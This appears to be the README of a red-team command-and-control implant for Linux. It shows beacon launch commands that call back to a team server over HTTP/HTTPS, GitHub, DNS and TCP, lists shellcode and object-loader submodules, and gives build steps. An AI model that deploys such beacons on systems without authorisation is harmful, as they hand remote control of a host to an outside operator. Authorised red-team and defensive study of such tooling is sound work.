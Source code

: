 # Exploration C2 Linux Implant

## What it is

Exploration is a redteam Command and Control framework.  
This repository contain the Beacon in C++ to target linux.  
The TeamServer and Client can be found in [C2TeamServer](https://github.com/maxDcb/C2TeamServer).  

This project contains multiple beacon communicating with the TeamServer thought different means, here is some example:

```
# HTTP/HTTPS
BeaconHttp IP_TEAMSERVER PORT_LISTENER http/https
BeaconHttp 10.10.10.10 8443 https
BeaconHttp 10.10.10.10 8080 http

# Github
BeaconGithub user/project TOKEN
BeaconGithub maxDcb/C2Implant ghp_dsfgdfhdf5554456g4fdg465...

# Dns
BeaconDns DNS_SERVER DOM_TEAMSERVER
BeaconDns 8.8.8.8 bac.superdomain.com

# Tcp
BeaconTcp IP_LISTENER PORT_LISTENER
BeaconTcp 127.0.0.1 4444
```

## Build 

### Sumbodule & External Projects:  

* [Donut](https://github.com/TheWover/donut): Creat shellcode from PE files.  
* [CoffLoader](https://github.com/trustedsec/COFFLoader): Run object files from [CS-Situational-Awareness-BOF](https://github.com/trustedsec/CS-Situational-Awareness-BOF).
* [cpp-base64](https://github.com/ReneNyffenegger/cpp-base64): base64.
* [json](https://github.com/nlohmann/json): json parser.

### Build the Linux Beacons and Modules

git submodule update --init   
mkdir build  
cd build


```
# With tests and logs  
cmake .. -DCMAKE_PROJECT_TOP_LEVEL_INCLUDES=./conan_provider.cmake -DWITH_TESTS=ON
# Without tests and logs  
cmake .. -DCMAKE_PROJECT_TOP_LEVEL_INCLUDES=./conan_provider.cmake -DWITH_TESTS=OFF
make -j4
```

#### Production

Beacons are in: "Release\Beacons"  
Modules DLL in: "Release\Modules"   




